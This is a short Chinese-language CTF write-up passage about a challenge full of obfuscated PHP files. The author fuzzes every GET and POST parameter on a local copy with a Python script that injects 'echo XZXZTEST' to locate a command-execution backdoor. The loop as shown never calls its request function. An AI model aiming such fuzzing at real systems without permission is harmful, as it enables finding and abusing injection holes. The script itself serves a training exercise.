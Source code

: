 ???

![](assets/202208262305794-170074459625569.png)

里面的代码都是混淆过的, 可阅读性几乎为 0

实在搞不懂要干什么, 看到 wp 才知道是要拿出文件里面的 get 和 post 参数进行 fuzz, 挺无语的...

我是把源代码都放在本地的服务器上, 这样子 fuzz 的时候会快一点

```python
import os
import re
import requests

filenames = os.listdir('.')

url = 'http://127.0.0.1/src/'

def req(filename, getParams, postParams):
    params = {k : 'echo XZXZTEST' for k in getParams}
    data = {k : 'echo XZXZTEST' for k in postParams}
    res = requests.post(url + filename, params=params, data=data)
    if r'XZXZTEST' in res.text:
        print(url + filename,params,data)
        exit()

for filename in filenames:
    if filename != 'search.py':
        with open(filename, 'r') as f:
            text = f.read()
        getParams = re.findall(r"\$\_GET\['(.*?)'\]", text)
        postParams = re.findall(r"\$\_POST\['(.*?)'\]", text)
        print('testing',filename)
```